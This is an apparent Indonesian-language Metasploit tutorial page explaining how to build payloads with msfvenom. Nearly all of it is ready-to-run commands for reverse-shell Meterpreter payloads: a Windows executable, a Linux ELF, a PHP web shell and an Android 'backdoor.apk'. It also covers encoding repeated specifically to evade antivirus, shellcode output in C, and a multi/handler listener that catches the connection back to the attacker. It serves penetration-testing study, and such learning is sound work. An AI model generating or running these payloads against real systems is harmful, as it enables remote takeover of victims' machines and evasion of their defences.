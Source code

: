 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Memahami%20Payload%2C%20Encoder%2C%20dan%20NOPs.md">Memahami Payload, Encoder, dan NOPs</a>
</p>

# Membuat Payload dengan MSFvenom

## A. Apa Itu MSFvenom?

`msfvenom` adalah tool bawaan dari Metasploit yang digunakan untuk:
- Membuat payload eksploitasi (`reverse shell`, `Meterpreter`, `dll`).
- Meng-encode payload untuk menghindari antivirus.
- Meng-output payload dalam berbagai format (`exe`, `elf`, `raw`, `c`, `dll`).

## B. Struktur Dasar Perintah MSFvenom:

```
msfvenom -p <PAYLOAD> LHOST=<IP_ATTACKER> LPORT=<PORT_LISTENER> -f <FORMAT_OUTPUT> -o <NAMA_FILE>
```

Keterangan:

| Parameter | Fungsi |
|:--:|:--:|
| `-p` | Memilih jenis payload | 
| `LHOST` | IP lokal/attacker |
| `LPORT` |	Port listener di attacker |
| `-f` | Format file output (`exe`, `elf`, `raw`, `dll`) |
| `-o` | Nama file output |
| `-e` | Encoder yang digunakan |
| `-i` | Jumlah iterasi encoder |
| `-n` | Jumlah byte NOP (NOP sled) |

## C. Contoh Payload Windows

1. Payload Reverse TCP:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
   ```

   Output: `shell.exe` (bisa dijalankan di sistem Windows).

2. Payload Dilengkapi Encoder:
  
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_encoded.exe
   ```

   Encoding `5 kali` untuk menghindari deteksi AV.

## D. Contoh Payload Linux:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o backdoor.elf
```

Output: file `ELF` untuk Linux.

## E. Format Output yang Didukung

| Format |	Keterangan |
|:--:|:--:|
| `exe` | Windows executable |
| `elf` |	Linux executable |
| `raw` | Shellcode mentah |
| `c`	| Shellcode dalam array C |
| `python` | Shellcode untuk script Python |
| `asp, jsp`	| Webshell payload |
| `dll, macho, rb, dll`	| Format lainnya |

## F. Menampilkan Semua Payload yang Tersedia:

```
msfvenom -l payloads
```

## G. Contoh Payload di Format C:

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```

Output-nya cocok untuk disisipkan dalam exploit `C` manual.

## H. Membuat Web Payload (PHP/ASP/JSP)

Contoh Payload PHP:

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shell.php
```

## I. Memasukkan Bad Characters

Untuk menghindari karakter tertentu seperti `\x00\x0a`, bisa tambahkan:

```
-b "\x00\x0a"
```

Contoh:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -b "\x00\x0a" -f exe -o filtered_shell.exe
```

## J. Payload untuk Android:

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o backdoor.apk
```

## K. Listener di Metasploit

Setelah payload dijalankan di target, buka listener:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
run
```

## Tips Tambahan
- Selalu uji payload di lab virtual.
- Gunakan encoding bila antivirus mendeteksi payload.
- Tambahkan `NOP sled` jika payload tidak stabil.

<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Membuat%20Listener.md">Membuat Listener</a>
</p>
